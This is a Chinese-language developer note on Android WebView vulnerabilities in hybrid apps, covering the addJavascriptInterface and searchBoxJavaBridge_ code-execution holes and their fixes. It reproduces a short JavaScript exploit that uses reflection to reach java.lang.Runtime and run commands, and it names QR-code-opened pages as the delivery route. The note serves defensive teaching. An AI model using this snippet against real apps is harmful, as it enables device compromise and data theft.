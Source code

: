 
    - 


### 使用Hybrid开发，需要了解的webview那些漏洞
#### 类型
1. 任意代码执行漏洞
    - addJavascriptInterface（）
    - webview内置到处的searchBoxJavaBridge 对象
    - webview内置导出的accesssibility和accessibilityTraversalObject对象
2. 密码明文存储漏洞
3. 域控制不严格漏洞
#### 具体分析
1. 任意代码执行漏洞
    - addJavascriptInterface（）接口
        - 漏洞产生原因：
        ```
        webView.addJavascriptInterface(new JSObject(), "myObj");
        // 参数1：Android的本地对象
        // 参数2：JS的对象
        // 通过对象映射将Android中的本地对象和JS中的对象进行关联，从而实现JS调用Android的对象和方法
        所以，漏洞产生的原因是：当js拿到android这个对象后，从而实现js调用android对象中所有的方法，包括系统类，从而进行任意代码执行。如可以执行命令获取本地设备的sd卡中的文件等信息从而造成信息泄露。
        ```
        - 具体获取系统类的描述（结合java反射机制）
            - android中的对象有一公共的方法：getClass();
            - 该方法可以获取到当前类 类型Class
            - 该类有一关键的方法：Class.forName()
            - 该方法可以加载一个类（java.lang.Runtime）
            - 而且该类是可以执行本地命令的
        - js攻击核心代码
            ```
                function execute(cmdArgs)  
                {  
                    // 步骤1：遍历 window 对象
                    // 目的是为了找到包含 getClass （）的对象
                    // 因为Android映射的JS对象也在window中，所以肯定会遍历到
                    for (var obj in window) {  
                        if ("getClass" in window[obj]) {  

                    // 步骤2：利用反射调用forName（）得到Runtime类对象
                            alert(obj);          
                            return  window[obj].getClass().forName("java.lang.Runtime")  

                    // 步骤3：以后，就可以调用静态方法来执行一些命令，比如访问文件的命令
                getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);  

                // 从执行命令后返回的输入流中得到字符串，有很严重暴露隐私的危险。
                // 如执行完访问文件的命令之后，就可以得到文件名的信息了。
                        }  
                    }  
                }   
            ```
        - 当一些 APP 通过扫描二维码打开一个外部网页时，攻击者就可以执行这段 js 代码进行漏洞攻击。在微信盛行、扫一扫行为普及的情况下，该漏洞的危险性非常大
        - 具体解决方案:
            - 方案一：在Android 4.2 版本中规定对被调用的函数以 @JavascriptInterface进行注解从而避免漏洞攻击
            - 方案二：在Android 4.2版本之前采用拦截prompt（）进行漏洞修复。
                - 具体步骤：继承WebView，重写addJavascriptInterface（）方法，然后在内部自己维护一个对象映射关系的Map；将需要添加的js接口放入该map中
                - 每次当WebView加载页面前，加载一段本地代码的js代码。原理是：
                    - 让js调用一JavaScript方法：该方法是通过调用prompt()把js中的信息（含有特点标识，方法名称，参数等）传递到android端；
                    - 在android的onJsPrompt()中，解析传递过来的信息，再通过反射机制调用java对象的方法，这样实现安全的js调用android代码。
                    - 关于android返回给js的值：可以通过prompt（）把java中方法的处理结果返回到js中
    - webview内置到处的searchBoxJavaBridge_对象
        - 原因：在Android 3.0以下，Android系统会默认通过searchBoxJavaBridge_的Js接口给 WebView 添加一个JS映射对象：**searchBoxJavaBridge_对象**。该接口可能被利用，实现远程任意代码。